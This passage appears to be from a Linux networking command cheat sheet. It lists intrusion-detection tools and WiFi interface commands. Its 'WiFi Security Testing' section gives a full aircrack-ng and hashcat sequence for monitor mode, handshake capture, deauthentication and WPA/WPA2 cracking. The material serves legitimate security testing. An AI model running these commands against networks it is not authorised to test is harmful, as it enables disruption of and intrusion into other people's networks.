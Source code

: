 ### Network Security Tools

```bash
# Port security
fail2ban-client status
fail2ban-client status ssh

# Intrusion detection
aide --check
rkhunter --check
chkrootkit

# Network intrusion detection
snort -A console -q -c /etc/snort/snort.conf -i eth0
suricata -c /etc/suricata/suricata.yaml -i eth0
```

## Wireless Networking

### WiFi Interface Management

```bash
# List wireless interfaces
iwconfig
iw dev

# Scan for networks
iwlist scan
iw scan

# Connect to network
iwconfig wlan0 essid "NetworkName"
iwconfig wlan0 key s:password

# Using wpa_supplicant
wpa_supplicant -B -i wlan0 -c wpa_supplicant.conf
dhclient wlan0
```

### WiFi Security Testing

```bash
# Monitor mode
airmon-ng start wlan0
iwconfig wlan0 mode monitor

# Capture handshakes
airodump-ng wlan0mon
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauthentication attack
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack WPA/WPA2
aircrack-ng -w wordlist.txt capture-01.cap
hashcat -m 2500 capture.hccapx wordlist.txt
```
